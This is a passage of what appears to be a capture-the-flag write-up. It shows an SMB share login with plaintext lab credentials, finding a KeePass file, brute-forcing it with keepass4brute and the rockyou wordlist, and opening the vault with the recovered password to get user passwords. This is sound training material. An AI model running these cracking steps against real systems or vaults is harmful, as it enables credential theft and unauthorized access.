 Enter in that share

```bash
smbclient -N //10.10.11.70/DEV -U 'levi.james%KingofAkron2025!'

smb: \> ls
  .                                  DR        0  Wed May 21 22:01:01 2025
  ..                                  D        0  Sat Mar  8 17:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 08:09:12 2025
  Projects                            D        0  Sat Mar  8 17:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 03:25:46 2025

                5080575 blocks of size 4096. 1537423 blocks available
```

We can see that there is a .KDBX file, which is a KeePass database.

### Crack and Open a .kdbx file

Trying extract the hash from the file with KeePass2john, it give me this error

```bash
keepass2john recovery.kdbx                             
! recovery.kdbx : File version '40000' is currently not supported!
```

Becouse the tool doesn't supper the version 4.X of the KeePass file.

I found another script on GitHub that extract the hash and brute force it with a wordlist

{% embed url="https://github.com/r3nt0n/keepass4brute" %}

```bash
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

The password is: `liverpool`&#x20;

Now we can open the database with `keepassxc-cli` in linux

```bash
keepassxc-cli open recovery.kdbx 
Enter password to unlock recovery.kdbx: liverpool
```

We have those user's passwords

<figure><img src="../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>
